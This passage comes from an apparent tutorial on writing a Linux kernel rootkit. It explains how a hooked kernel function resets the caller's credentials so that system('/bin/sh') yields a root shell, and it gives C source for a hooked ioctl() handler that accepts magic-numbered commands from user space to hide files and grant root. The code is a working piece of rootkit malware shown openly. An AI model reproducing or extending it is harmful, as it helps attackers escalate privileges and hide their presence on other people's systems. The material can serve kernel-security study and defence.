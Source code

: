  	We call this function from user space, and the root kit  will retset the calling function's credential, then we prompt a shell by 

```c
system("/bin/sh");
```

and it will be a root one;





## 3. hook *ioctl()*

It's a common trick in rootkit to hook the *ioctl()* syscall to pass command to the rootkit from user space after it gets load into the kernel. The design is simple:

1. we hook the *ioctl()* syscall, forward the normal syscalls to the real *ioctl()*, and at the same time:
2. we define a magic magic for our rootkit operation and our *ioctl()* hook function will recognize it and do the corresponding operations for us. And we need to define some structs to pass to the rootkit to tell it what we want to do and how it should be done
3. the struct we pass to the rootkit should contain a magic number to ensure we are indeed intercepting a command for the rootkit. The struct is mainly for passing execution parameters to the rootkit, like the file name we want to hide. Be aware that the only argument we can pass to the kernel module using *ioctl()* is a pointer, and generally it points to the user space. So before we dereferrencing the parameters in the struct fields, we need to copy it to kernel space with *copy_from_user()*

The implementation is as follows

```c
static int hack_ioctl(unsigned int fd, unsigned int cmd, unsigned long arg){
    if(cmd == ROOTKIT_IOCTL_MAGIC){
        struct rootkit_cmd cmd;
        copy_from_user(&cmd, (void*)arg, sizeof(struct rootkit_cmd));   // the arg points to user space, copy it to kernel space
        if(cmd.magic_head == ROOTKIT_CMD_MAGIC_HEAD && cmd.magic_tail == ROOTKIT_CMD_MAGIC_TAIL){
            switch(cmd.cmd_id){
                case ROOTKIT_CMD_ID_HIDEFILE:{
                    struct cloak_file_cmd cfc;
                    copy_from_user(&cfc, (void*)cmd.real_arg, sizeof(struct cloak_file_cmd));
                    return add_cloak_file_name((char*)&cfc.name);
                }
                case ROOTKIT_CMD_ID_GETROOT:{
                    printk("[+] rootkit: getroot() called\n");
                    return hack_getroot();
                }
                case ROOTKIT_CMD_ID_TEST:{
                    printk("[+] work correctly\n");
                    return 1;
                }
            }
        }
    }
    return (*real_ioctl)(fd, cmd, arg);
}

```
